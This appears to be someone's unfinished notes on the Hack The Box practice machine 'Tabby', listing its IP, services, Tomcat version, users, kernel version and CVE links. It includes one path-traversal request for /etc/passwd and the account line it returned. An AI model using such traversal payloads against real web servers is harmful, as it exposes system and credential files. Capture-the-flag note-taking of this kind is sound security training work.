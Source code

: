 # Tabby Notes

## Data 

IP: 10.10.10.194
OS: Ubuntu 20.04 LTS
Hostname: tabby
Domain:  http://megahosting.htb/
Machine Purpose: 
Services: 22,80,8080
Service Languages: php
Users: ash / clive 
Credentials:

## Objectives

## Target Map

![](Tabby-map.excalidraw.md)

## Solution Inventory Map

databreachandrootaccess.png

tomcat9 - Version 9.0.31 `nuclei` [[tomcat-exposed-docs]] 
defaulttomcathomepage.png

`http://megahosting.htb/news.php?file=../../../../etc/passwd`
lfi.png
ash:x:1000:1000:clive:/home/ash:/bin/bash

tabby 
tabby.png

Ubuntu2004LTS.png

`Linux version 5.4.0-31-generic (buildd@lgw01-amd64-059) (gcc version 9.3.0 (Ubuntu 9.3.0-10ubuntu2)) #35-Ubuntu SMP Thu May 7 20:20:34 UTC 2020`
kernelversion.png

9.0.30
https://www.rapid7.com/db/vulnerabilities/apache-tomcat-cve-2020-13943/
https://www.infosecmatter.com/nessus-plugin-library/?id=132419



### Todo 

Make Excalidraw

### Done
      


